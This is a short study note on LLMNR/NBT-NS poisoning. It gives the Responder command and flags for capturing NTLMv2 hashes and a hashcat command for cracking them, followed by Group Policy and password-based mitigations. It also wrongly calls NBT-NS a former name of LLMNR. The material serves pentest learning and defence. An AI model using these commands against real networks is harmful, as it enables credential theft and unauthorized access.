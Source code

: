 What is LLMNR?

It stands for Link Local Multi-Cast Name Resolution.  It is used to identify hosts when DNS fails to do so. It was previously called NBT-NS. Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.

![[Pasted image 20240827003632.png]]

Overview:

![[Pasted image 20240827003740.png]]

How to do LLMNR poisoning? 

Step 1: Run Responder

```
$ sudo responder -I eth0 -dwPv
```

Here, -d is for DHCP requests. -w is for wpad rogue proxy server. -P is for forced NTLM authentication for the proxy. -v is for verbosity.

Step 2: An event occurs...

![[Pasted image 20240827004019.png]]

We then have to connect to our attacker machine.

Step 3: Get the hashes!!

![[Pasted image 20240827004045.png]]

Step 4: Crack the hashes using Tools like [[Cracking Hashes using Hashcat|Hashcat]]:

```
$ hashcat -m 5600 hashes.txt rockyou.txt
```

Where hashes.txt is your input file and rockyou.txt is the wordlist file.

Mitigation:

The best defense in this case is to disable LLMNR and NBT-NS.
1) To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor
2) To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced Tab > WINS tab and select "Disable NetBIOS over TCP/IP".

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
1) Require Network Access Control
2) Require strong user passwords(eg., >14 characters in length and limit common word usage.) The more complex and long the password, the harder it is for an attacker to crack the hash.